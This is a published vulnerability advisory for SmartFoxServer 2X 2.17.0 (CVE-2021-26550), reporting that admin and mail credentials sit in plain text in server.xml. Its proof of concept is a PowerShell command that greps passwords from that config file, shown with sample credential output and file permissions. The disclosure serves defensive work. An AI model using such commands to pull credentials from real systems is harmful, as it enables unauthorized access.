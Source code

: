     SmartFoxServer 2X 2.17.0 Credentials Disclosure


    Vendor: gotoAndPlay()
    Product web page: https://www.smartfoxserver.com
    Affected version: Server: 2.17.0
                      Remote Admin: 3.2.6
                      SmartFoxServer 2X, Pro, Basic

    Summary: SmartFoxServer (SFS) is a comprehensive SDK for
    rapidly developing multiplayer games and applications
    with Adobe Flash/Flex/Air, Unity, HTML5, iOS, Universal
    Windows Platform, Android, Java, C++ and more. SmartFoxServer
    comes with a rich set of features, an impressive
    documentation set, tens of examples with their source,
    powerful administration tools and a very active support
    forum. Born in 2004, and evolving continuously since
    then, today SmartFoxServer is the leading middleware to
    create large scale multiplayer games, MMOs and virtual
    communities. Thanks to its simplicity of use, versatility
    and performance, it currently powers hundreds of projects
    all over the world, from small chats and turn-based games
    to massive virtual worlds and realtime games.

    Desc: The application stores sensitive information in an
    unencrypted XML file called /config/server.xml. A local
    attacker that has access to the current user session can
    successfully disclose plain-text credentials that can be
    used to bypass authentication to the affected server.

    Tested on: Windows (all) 64bit installer
               Linux/Unix 64bit installer
               MacOS (10.8+) 64bit installer
               Java 1.8.0_281
               Python 3.9.1
               Python 2.7.14


    Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                                @zeroscience


    Advisory ID: ZSL-2021-5627
    Advisory URL: https://www.zeroscience.mk/en/vulnerabilities/ZSL-2021-5627.php

    CVE ID: CVE-2021-26550
    CVE URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-26550
    NIST URL: https://nvd.nist.gov/vuln/detail/CVE-2021-26550

    CWE ID: CWE-312
    CWE URL: https://cwe.mitre.org/data/definitions/312.html


    29.01.2021

    --


    PS C:\Users\t00t\SmartFoxServer_2X\SFS2X\config> Get-Content server.xml | Select-String -Pattern passw -Context 1,0

              <login>sfsadmin</login>
    >         <password>Waddup</password>
              <login>testingus</login>
    >         <password>123456</password>
          <mailUser>username</mailUser>
    >     <mailPass>password</mailPass>


    C:\Users\t00t\SmartFoxServer_2X\SFS2X\config>icacls server.xml
    server.xml NT AUTHORITY\SYSTEM:(I)(F)
               BUILTIN\Administrators:(I)(F)
               LAB42\t00t:(I)(F)